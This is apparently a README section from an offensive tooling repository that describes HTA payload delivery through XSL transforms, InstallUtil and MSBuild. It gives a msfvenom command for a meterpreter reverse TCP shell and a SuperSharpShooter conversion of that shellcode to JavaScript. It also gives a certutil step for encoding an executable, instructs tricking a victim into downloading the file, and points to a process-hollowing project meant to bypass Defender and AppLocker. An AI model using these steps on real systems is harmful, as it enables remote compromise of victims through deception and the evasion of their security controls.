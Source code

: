 ### <ins>XSL Transform (xsl.hta)</ins>

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt` 
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test` 
- Embed the JS content inside the `template.xsl` template file. 

### <ins>InstallUtil (installutil-template.hta)</ins>
- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the filw at CLM-Bypass/MSBuild/procHollow.csproj. (Bypass defender and Applocker defautlt rules)
